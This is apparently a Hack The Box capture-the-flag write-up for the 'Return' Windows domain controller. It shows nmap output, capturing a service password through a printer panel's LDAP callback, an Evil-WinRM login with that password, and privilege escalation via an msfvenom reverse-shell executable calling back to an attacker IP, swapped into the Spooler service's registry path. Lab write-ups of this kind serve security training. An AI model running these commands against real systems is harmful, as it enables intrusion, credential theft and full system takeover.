 ```yaml
---
description: https://app.hackthebox.com/machines/Return
---
```


# Return

## Nmap

```
nmap 10.10.11.108 -p- -sS -sV                  

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-12 17:02:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
64370/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

{% hint style="info" %}
Add "10.10.11.108 return.local" to /etc/hosts.
{% endhint %}

I ran through various standard Active Directory checks such as username and LDAP enumeration. I was not able to pick up results of interest.

Checking our port 80 we come to the root page "HTB Printer Admin Panel".

![](<../../../.gitbook/assets/image (357).png>)

We also have an a page of interest under `/settings.php`.

![](<../../../.gitbook/assets/image (2057) (1) (2).png>)

Looking through the PHP source code we are unable to identify anything of interest to us. Opening up ZAP proxy and running the default settings through the "Update" button we get the output below.

![](<../../../.gitbook/assets/image (399).png>)

We can see in the body of the POST request we have the target systems hostname. From here I set a `nc` listener on my attacking system to the port specified in the `/settings.php` page.

```bash
nc -lvp "127.0.0.1" -p "389"
```

Then edited the post request in ZAP Proxy to point back to my attacking system IP.

![](<../../../.gitbook/assets/image (459).png>)

And, after sending the request we are sent back a password for the account svc-printer.

![](<../../../.gitbook/assets/image (293).png>)

A quick test against `SMB` and `WinRM` with `crackmapexec` proves the credentials are valid.

![](<../../../.gitbook/assets/image (546) (2).png>)

From here we can use `Evil WinRM` to log in as the svc-printer user.

```
evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108
```

![](<../../../.gitbook/assets/image (547) (2).png>)

Now, with low level access on the Domain Controller we can look for path to privilege escalation. Doing some basic membership checks with `whoami /groups` shows we are a member of the "Server Operators" group.

**Server Operators:** [https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups)

![](<../../../.gitbook/assets/image (240).png>)

This group, gives user multiple interesting permissions. Namely, the ability to create, delete and reconfigure services.

The medium article below shows a good outline on how to use this to escalate privileges.

**URL:** [https://medium.com/@parvezahmad90/windows-privilege-escalation-insecure-service-registry-to-system-shell-step-by-step-88776c712c17](https://medium.com/@parvezahmad90/windows-privilege-escalation-insecure-service-registry-to-system-shell-step-by-step-88776c712c17)

On the target system at hand we will be doing this with the spooler service. We can use any server that is running in an elevated context however if we wish to.

First we double check the intended binary path for the spooler service.

```
reg query HKLM\system\currentcontrolset\services\Spooler /s  /v imagepath
```

We can then check the ACL's over the service. Below we see the owner is SYSTEM and the "Server Operators" group has the ability to "SetValue" which allows us to reconfigure the binary path.

```
get-acl HKLM:\system\currentcontrolset\services\Spooler | fl
```

![](<../../../.gitbook/assets/image (40) (2).png>)

On our attacking system we generate a x64 reverse shell executable.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o reverse.exe
```

Then transfer over to the target system with `Evil WinRM`.

![](<../../../.gitbook/assets/image (106).png>)

From here we can add a registry value that changes the binary path to the payload we just uploaded.

```
REG add HKLM\System\CurrentControlSet\Services\spooler /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\svc-printer\Documents\reverse.exe" /f
```

a `nc` listener is set on the attacking system.

```
sudo nc -lvp 443
```

Then a reboot is initiated on the target system. When the system reboots the Spooler service will come up and execute the reverse shell binary.

```
shutdown.exe -r -f -t 10
```

Landing us a SYSTEM shell.

![](<../../../.gitbook/assets/image (242).png>)

